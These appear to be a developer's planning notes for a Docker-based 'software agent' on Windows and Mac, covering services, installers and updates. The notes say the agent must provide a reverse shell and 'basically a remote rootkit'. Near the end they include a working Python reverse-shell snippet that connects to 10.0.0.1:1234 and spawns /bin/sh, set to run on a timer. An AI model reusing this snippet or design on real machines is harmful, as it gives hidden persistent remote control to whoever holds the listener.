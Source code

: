 Software Agent

Must run on Windows and Mac. Not optional

Must set up infrastructure:
    PKI
    A reverse shell
    Basically a remote rootkit

docker-compose on windows and mac?

Windows and Mac scripts to manage the docker system?

Push everything possible into a docker image

How to do rpc?
    Are Docker hostnames visible to other images on the same Docker network? YES!!!!
    Each service gets a hardcoded hostname

How to package?
    Installing docker
    Installing our images and docker-compose
    Host service that monitors the docker images
    Updating the images
    Code signing/certification for each platform

Windows Service:
    http://thepythoncorner.com/dev/how-to-create-a-windows-service-in-python/

Linux Service:
    systemd

Mac Service:

https://docs.docker.com/docker-for-windows/install/
https://docs.docker.com/docker-for-mac/install/

Enable features from an install script in windows?
    https://docs.microsoft.com/en-us/windows-hardware/manufacture/desktop/enable-or-disable-windows-features-using-dism
    Microsoft-Windows-Subsystem-Linux

Windows Installer:
    "Beginning with Windows Installer 5.0, a package can be authored to secure new accounts, Windows Services, files, folders, and registry keys. The package can specify a security descriptor that denies permissions, specifies inheritance of permissions from a parent resource, or specifies the permissions of a new account. "
    https://docs.microsoft.com/en-us/windows/win32/msi/windows-installer-portal

Service depends on Docker service

OnStart:
    Check for updates
    Start docker-compose

OnStop:
    Stop docker-compose

The system specific code should be limited to controlling the docker service and docker-compose

Control the host service from docker? Dangerous because attackers could potentially hack a docker image and then control the host

Reverse shell:
    import socket,subprocess,os;
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect(("10.0.0.1",1234));
    os.dup2(s.fileno(),0);
    os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);
    p=subprocess.call(["/bin/sh","-i"]);

    Need a timer to call it

docker-compose up -d
